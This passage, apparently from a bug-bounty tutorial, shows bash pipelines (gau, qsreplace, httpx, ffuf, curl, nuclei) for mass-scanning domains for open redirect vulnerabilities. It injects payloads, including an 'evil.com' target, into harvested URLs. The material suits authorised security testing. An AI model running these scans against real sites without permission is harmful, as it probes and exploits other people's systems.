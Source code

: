 Or you can also achieve same results using the following method for single and multiple target domains:
```bash
echo target.com -all | gau | gf redirect | uro | while read url; do cat loxs/payloads/or.txt | while read payload; do echo "$url" | qsreplace "$payload"; done; done | httpx-toolkit -silent -fr -mr "google.com" subfinder -d target.com -all | httpx-toolkit -silent | gau | gf redirect | uro | while read url; do cat loxs/payloads/or.txt | while read payload; do echo "$url" | qsreplace "$payload"; done; done | httpx-toolkit -silent -fr -mr "google.com"
```

### Fuzzing with FFuF and Verifying in Burpsuite

```bash
ffuf -w redirect_params.txt:PARAM -w loxs/payloads/or.txt:PAYLOAD -u "https://site.com/bitrix/redirect.php?PARAM=PAYLOAD" -mc 301,302,303,307,308 -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0" -x http://localip:8080 -t 10 -mr "Location: http://google.com"
```

- -mc : Match only 301,302,303,307,308 redirect responses.
- -mr : Confirm redirect to a malicious domain "Location: http://google.com"
- -x: This option is used to proxy FFUF traffic through Burp Suite for manual testing.
- -w for wordlist: redirect_param.txt contains all openredirect params and or.txt file contains all openredirect bypass paylaods

![None](https://miro.medium.com/v2/resize:fit:700/1*DL8EFm9zDntIGcTjjRi9UA.jpeg)

After capturing FFUF traffic in Burp Suite, you can use the filter option to display only the 300 series status codes.

for more better filtering you can use burp search option to check only google.com url in response header for more acurate results:

![None](https://miro.medium.com/v2/resize:fit:700/1*o-3jN8EqckkOnYh774o-hA.jpeg)

You can also use CURL tool for mass open redirect testing with the following command:

```bash
cat urls.txt | qsreplace "https://evil.com" | xargs -I {} curl -s -o /dev/null -w "%{url_effective} -> %{redirect_url}\n" {}
```

![None](https://miro.medium.com/v2/resize:fit:700/1*CQ7Cypbl9UcntppsPodAPw.jpeg)

### Testing Using Nuclei Template

You can also use this custom private Nuclei template that automatically appends parameters to subdomain URLs and checks for open redirects.

```bash
echo subdomains.txt | nuclei -t openRedirect.yaml -c 30
```

![None](https://miro.medium.com/v2/resize:fit:700/1*p4FlqrzI4yAN-3BVgAa4zg.jpeg)

### Using virustotal
